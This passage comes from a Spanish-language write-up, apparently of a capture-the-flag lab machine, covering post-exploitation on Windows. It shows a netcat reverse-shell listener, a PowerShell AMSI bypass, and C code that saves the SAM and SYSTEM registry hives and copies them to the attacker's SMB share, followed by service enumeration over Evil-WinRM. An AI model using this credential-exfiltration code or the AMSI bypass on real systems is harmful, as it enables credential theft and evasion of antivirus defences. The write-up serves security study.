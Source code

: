 ```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.104] 49731

PS C:\Temp> $ExecutionContext.SessionState.LanguageMode
FullLanguage
PS C:\Temp> 
```

Intento corromper la tarea, pero no consigo nada

```null
PS C:\ProgramData\unifi-articulo> $a='si';$b='Am';$Ref=[Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils'-f $b,$a)); $z=$Ref.GetField(('am{0}InitFailed'-f$a),'NonPublic,Static');$z.SetValue($null,$true)
PS C:\ProgramData\unifi-articulo> .\taskkill.exe
ERROR: Program 'taskkill.exe' failed to run: Operation did not complete successfully because the file contains a virus or potentially unwanted softwareAt line:1 char:1
+ .\taskkill.exe
+ ~~~~~~~~~~~~~~.

PS C:\ProgramData\unifi-articulo> 
```

Pruebo a compilar un script en C desarrollado por mí, utilizando mingw-w64

```null
#include <stdlib.h>

int main(){
    system("reg save HKLM\\SAM sam.bak");
    system("reg save HKLM\\SYSTEM system.bak");
    system("copy .\\sam.bak \\\\10.10.16.3\\shared\\sam");
    system("copy .\\system.bak \\\\10.10.16.3\\shared\\system");

}
```

Compilo y lo descargo en la máquina víctima

```null
x86_64-w64-mingw32-gcc script.c -o taskkill.exe
```

Intento listar los servicios, pero no tengo acceso

```null
*Evil-WinRM* PS C:\ProgramData\unifi-articulo> sc.exe query
[SC] OpenSCManager FAILED 5:

Access is denied.
```

Una manera alternativa es listando los registros

```null
*Evil-WinRM* PS C:\ProgramData\unifi-articulo> reg query HKLM\SYSTEM\CurrentControlSet\Services | Select-String unifi

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\UniFiarticuloservice
```
